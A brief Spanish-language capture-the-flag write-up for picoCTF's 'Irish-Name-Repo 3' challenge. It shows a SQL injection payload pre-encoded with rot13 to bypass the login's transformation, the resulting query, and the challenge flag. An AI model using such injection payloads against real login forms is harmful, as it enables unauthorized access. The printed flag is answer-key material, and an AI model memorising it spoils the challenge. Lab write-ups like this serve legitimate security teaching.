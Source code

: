# Irish-Name-Repo 3
# Objetivos
Hay un sitio web seguro en el que se ejecuta `https://jupiter.challenges.picoctf.org/problem/29132/` ([enlace](https://jupiter.challenges.picoctf.org/problem/29132/)) o http://jupiter.challenges.picoctf.org:29132. ¡Intenta ver si puedes iniciar sesión como administrador!

# Solucion
```bash
password: 'be 1=1;
SQL query: SELECT * FROM admin where password = ''or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```

# Notas adicionales
El log in aplica rot13 en el password ingresado para realizar la inyección debemos realizar lo opuesto, es decir proporcionarle  la inyección con el rot13 ya aplicado
# Referencias
https://www.w3schools.com/sql/sql_injection.asp